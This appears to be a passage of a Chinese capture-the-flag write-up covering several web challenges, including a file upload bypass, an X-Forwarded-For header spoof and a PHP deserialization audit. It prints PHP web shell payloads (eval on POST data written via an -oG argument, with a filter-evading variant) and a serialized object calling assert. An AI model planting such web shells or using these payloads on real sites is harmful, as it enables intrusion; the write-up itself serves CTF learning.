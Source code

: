 所以上传shell，构造payload:<code><?php @eval($_POST[1]); ?> -oG a.php</code>

![upload successful](./images/pasted-298.png)
发现存在过滤，尝试发现是php被过滤，所以替换payload中的php字符。

构造新的payload:<code>' <?= @eval($_POST["pd"]);?> -oG pd.phtml '</code>

![upload successful](./images/pasted-300.png)
成功上传，使用蚁剑连接，拿下flag

![upload successful](./images/pasted-301.png)

# [MRCTF2020]PYWebsite1

![upload successful](./images/pasted-336.png)
![upload successful](./images/pasted-337.png)
源码里发现/flag.php

![upload successful](./images/pasted-338.png)
访问发现一个页面，抓包看一下，这里说除了购买者和我自己，没有人可以看到flag，猜测可能会使用X-Forwarded-For信息，修改请求包

![upload successful](./images/pasted-339.png)
直接拿下flag

# [NPUCTF2020]ReadlezPHP1

![upload successful](./images/pasted-340.png)
进入页面

![upload successful](./images/pasted-341.png)
审查源码发现一个页面，

![upload successful](./images/pasted-342.png)
很明显是代码审计，构造payload:<code>O:8:"HelloPhp":2:{s:1:"a";s:16:"eval(phpinfo());";s:1:"b";s:6:"assert";}</code>

![upload successful](./images/pasted-343.png)
成功拿下flag

# [SWPU2019]Web11

![upload successful](./images/pasted-344.png)
进入页面，先把弱口令都试一遍失败，点注册，账号使用admin

![upload successful](./images/pasted-345.png)
显示已经被注册，使用之前那个欺骗，发现不行了，注册一个test进入
